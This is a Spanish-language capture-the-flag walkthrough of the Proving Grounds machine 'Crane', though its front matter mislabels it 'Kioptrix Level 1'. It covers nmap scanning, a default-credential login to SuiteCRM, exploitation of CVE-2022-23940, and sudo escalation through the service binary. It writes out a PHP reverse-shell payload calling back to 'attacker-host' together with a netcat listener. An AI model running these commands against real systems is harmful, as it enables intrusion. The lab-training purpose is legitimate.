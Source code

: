 ```yaml
---
weigth: 1
title: "Kioptrix Level 1 Walkthrough"
date: 2024-05-02T11:24:09+02:00
draft: false
author: Antu
publishDate: 2024-05-01
tags: ["Walkthrough", "PG", "TjNull", "OSCP", "Easy", "Intermediate"]
categories: ["Proving Grounds"]
images: []
resources: 
- name: "featured-image"
  src: "preimagen.jpeg"

lightgallery: true

toc:
  auto: false
---
```

# Crane

## Descripción

Dificultad: intermedia (valorada como easy)

En esta maquina de Proving Grounds Practice, veremos la explotación del software SuiteCRM a través de un exploit publico y una escalada de privilegios aprovechándonos de permisos sobre un binario que es posible ejecutar con sudo.

## Escaneo y Análisis de Vulnerabilidades

Iniciamos realizando un escaneo con nmap sobre la maquina crane

```bash
nmap -p- --open -T4 -Pn -n -vvv -sS 192.168.250.146  -oG allPorts
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled.png)

Exportamos los resultados en formato grepeable para poder copiar y pegar los puertos obtenidos en un nuevo escaneo a través de la función extracPorts.

Esta función es un extra que podéis añadir a vuestra zshrc para agilizar vuestros escaneos.

Una vez en vuestra zshrc debeis cerrar la terminal y abrir una nueva para que se completen los cambios.

```bash
# Funcion extracPorts
# Extract nmap information
function extractPorts(){
    ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
    ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
    echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
    echo -e "\t[*] IP Address: $ip_address"  >> extractPorts.tmp
    echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.tmp
    echo $ports | tr -d '\n' | xclip -sel clip
    echo -e "[*] Ports copied to clipboard\n"  >> extractPorts.tmp
    cat extractPorts.tmp; rm extractPorts.tmp
}

```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%201.png)

Nos interesa el puerto 80 del cual obtendremos mas información en el siguiente escaneo.

```bash
nmap -p22,80,3306,33060 -sCV 192.168.250.146 -oN target
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%202.png)

Vemos que en el puerto 80 hay un servidor apache, por lo que pasamos a ver su contenido.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%203.png)

Nos encontramos ante un login, lo primero que se me ocurre es probar credenciales por defecto como admin:admin y… 

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%204.png)

Exito!

## Explotación

Tras obtener unas credenciales validas he pasado a buscar si existe algún exploit publico para la versión de este software y encontré el siguiente.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%205.png)

Exploit:

[https://github.com/manuelz120/CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)

Ejecutando la siguiente linea de comandos obtenemos la reverse shell

```bash
# Nos ponemos a la escucha
nc -nlvp 80

# Ejecutamos exploit
./exploit.py -u admin -p admin --payload "php -r '\$sock=fsockopen(\"attacker-host\", 80); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

y voila!

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%206.png)

Tras realizar un tratamiento de la tty

```bash
# tratamiento de la tty
script /dev/null -c bash
ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 59 columns 236

```

La primera flag se encuentra en /var/www

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%207.png)

## Escalda de privilegios

si comprobamos los permisos sudo del usuario vemos que podemos ejecutar el binario service con sudo.

```bash
sudo -l
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%208.png)

En la siguiente web encontramos como podemos explotar este binario con sudo

[https://gtfobins.github.io/gtfobins/service/#sudo](https://gtfobins.github.io/gtfobins/service/#sudo)

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%209.png)

Ejecutamos y…

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2010.png)

La flag se encuentra en /root

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2011.png)

Maquina Crane Pwned!
